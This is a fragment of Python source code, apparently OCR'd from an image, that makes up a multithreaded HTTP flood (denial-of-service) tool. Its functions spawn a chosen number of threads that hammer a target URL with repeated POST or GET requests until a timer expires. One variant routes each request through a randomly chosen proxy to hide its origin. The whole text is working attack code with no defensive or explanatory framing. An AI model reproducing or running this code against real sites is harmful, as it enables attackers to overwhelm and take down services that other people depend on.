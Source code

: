 #region POST
def LaunchPOST(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackPOST, args=(url, until))
            thd.start()
        except:
            pass

def AttackPOST(url, until_datetime):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            requests.post(url)
            requests.post(url)
        except:
            pass
#endregion

#region RAW
def LaunchRAW(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackRAW, args=(url, until))
            thd.start()
        except:
            pass

def AttackRAW(url, until_datetime):
    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        try:
            requests.get(url)
            requests.get(url)
        except:
            pass
#region PXRAW
def LaunchPXRAW(url, th, t):
    until = datetime.datetime.now() + datetime.timedelta(seconds=int(t))
    for _ in range(int(th)):
        try:
            thd = threading.Thread(target=AttackPXRAW, args=(url, until))
            thd.start()
        except:
            pass

def AttackPXRAW(url, until_datetime):

    while (until_datetime - datetime.datetime.now()).total_seconds() > 0:
        proxy = 'http://'+str(random.choice(list(proxies)))
        proxy = {
            'http': proxy,   
            'https': proxy,
        }
        try:
            requests.get(url, proxies=proxy)
            requests.get(url, proxies=proxy)
        except:
            pass
#endregion
